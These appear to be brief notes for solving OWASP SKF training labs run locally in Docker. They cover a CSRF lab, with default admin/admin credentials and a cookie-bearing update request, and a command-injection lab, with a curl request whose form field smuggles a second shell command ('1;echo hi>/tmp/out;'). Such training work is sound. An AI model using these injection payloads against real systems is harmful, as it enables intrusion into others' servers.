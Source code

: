 ## blabla1337/owasp-skf-lab:java-csrf

```bash
docker run -p5000:5000 blabla1337/owasp-skf-lab:java-csrf
```

spring-boot
-> admin/admin -> src/main/resources/data.sql


```bash
curl 'http://localhost:5000/update' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: JSESSIONID=DA8353D048C3C8B90D33596A10B2B360' \
  --data-raw 'color=yellow2'
```

## ## blabla1337/owasp-skf-lab:java-cmd

docker run -p5000:5000 blabla1337/owasp-skf-lab:java-cmd

drop malicious payload in remote filesystem
```bash
curl 'http://localhost:5000/home' \
   -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQJEtZoqQ8I4ZmYVs' \
  --data-raw $'------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs\r\nContent-Disposition: form-data; name="size"\r\n\r\n1;echo hi>/tmp/out;\r\n------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs--\r\n' \
  --compressed
```
